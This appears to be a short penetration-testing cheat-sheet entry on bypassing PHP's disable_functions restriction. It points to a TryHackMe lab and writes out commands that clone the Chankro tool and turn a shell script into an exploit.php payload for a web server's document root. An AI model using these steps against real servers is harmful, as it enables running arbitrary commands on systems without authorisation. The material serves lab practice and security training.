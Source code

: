 # php
## Handle disabled functions
cf disable_functions in phpinfo.php
check `$_SERVER['DOCUMENT_ROOT']` in phpinfo.php to know where the folder of the webserver is.

For more info, check https://tryhackme.com/room/bypassdisablefunctions

```bash
git clone https://github.com/TarlogicSecurity/Chankro
cd Chankro
python2 chankro.py --arch 64 --input exploit.sh --output exploit.php --path /PATH/TO/DOCUMENT_ROOT
```
